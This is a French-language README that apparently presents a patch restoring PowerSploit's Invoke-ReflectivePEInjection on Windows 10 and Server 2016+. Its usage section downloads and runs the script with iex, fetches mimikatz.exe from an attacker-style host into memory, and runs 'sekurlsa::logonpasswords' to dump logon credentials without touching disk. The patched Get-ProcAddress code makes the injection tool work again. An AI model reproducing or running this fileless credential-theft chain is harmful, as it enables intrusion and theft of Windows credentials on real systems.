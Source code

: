 
# Invoke-ReflectivePEInjection - Patch pour Windows 10 et Windows Server 2016+

## Usage

```powershell
# Activer TLS 1.2 pour le téléchargement
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

# Télécharger la version corrigée d'Invoke-ReflectivePEInjection
$b = Invoke-RestMethod -Uri "https://raw.githubusercontent.com/SafeItConsulting/Invoke-ReflectivePEInjection/refs/heads/main/Invoke-ReflectivePEInjection.ps1"
iex($b)

# Télécharger un fichier PE (exemple : mimikatz.exe) en mémoire
$x = (New-Object System.Net.WebClient).DownloadData('https://attackercdn.fr/mimikatz.exe')

# Exécuter l'outil injecté en mémoire
Invoke-ReflectivePEInjection -PEBytes ($x) -ExeArgs "sekurlsa::logonpasswords exit"
```

---

## Contexte

L'ancienne version de `Invoke-ReflectivePEInjection` provenant de **PowerSploit** ne fonctionne plus correctement sur les systèmes **Windows Server 2016+** et **Windows 10 récents**.  
L'erreur se produit principalement dans la fonction `Get-ProcAddress` lors de l'appel aux méthodes `GetMethod` et `GetDelegateForFunctionPointer`.

### Exemple d'erreur :
```plaintext
Exception lors de l'appel de « GetMethod » avec « 1 » argument(s) : « Correspondance ambiguë trouvée. »
Au caractère Ligne:1002 : 9
+         $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddr ...
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : AmbiguousMatchException
```

---

## Correctif (Patch)

### Fonction `Get-ProcAddress` corrigée
```powershell
Function Get-ProcAddress {
    Param (
        [OutputType([IntPtr])]
        [Parameter(Position = 0, Mandatory = $True)]
        [String] $Module,
        [Parameter(Position = 1, Mandatory = $True)]
        [String] $Procedure
    )
    $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() | Where-Object {
        $_.GlobalAssemblyCache -And $_.Location.Split('\')[-1].Equals('System.dll')
    }
    $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods')
    
    # Récupère une référence aux méthodes GetModuleHandle et GetProcAddress
    $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle')
    $x = $($UnsafeNativeMethods.GetMethods() | Where-Object { $_.Name -eq "getprocaddress" })
    
    # Gestion des doublons : sélectionner la méthode appropriée
    if (Get-Member -InputObject $x -Name Length -MemberType Properties) {
        $GetProcAddress = $x[1]
    } else {
        $GetProcAddress = $UnsafeNativeMethods.GetMethod("GetProcAddress")
    }
    
    $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
    $tmpPtr = New-Object IntPtr
    $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
    
    Write-Output $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
}
```

---

## Explication

- **`Get-ProcAddress`** : Cette fonction patchée corrige la gestion des méthodes en cas de doublons, qui provoque l'erreur **"Correspondance ambiguë"**.
- **`Invoke-ReflectivePEInjection`** : Cette commande permet l'injection d'une charge PE directement en mémoire.
- **Mode file-less** : Le fichier `mimikatz.exe` est téléchargé et injecté sans toucher le FS

---

## Sources
- Ancienne version PowerSploit :  
  [PowerSploit CodeExecution](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)  

- Version corrigée :  
  [SafeITConsulting/Invoke-ReflectivePEInjection](https://raw.githubusercontent.com/SafeItConsulting/Invoke-ReflectivePEInjection/refs/heads/main/Invoke-ReflectivePEInjection.ps1)  
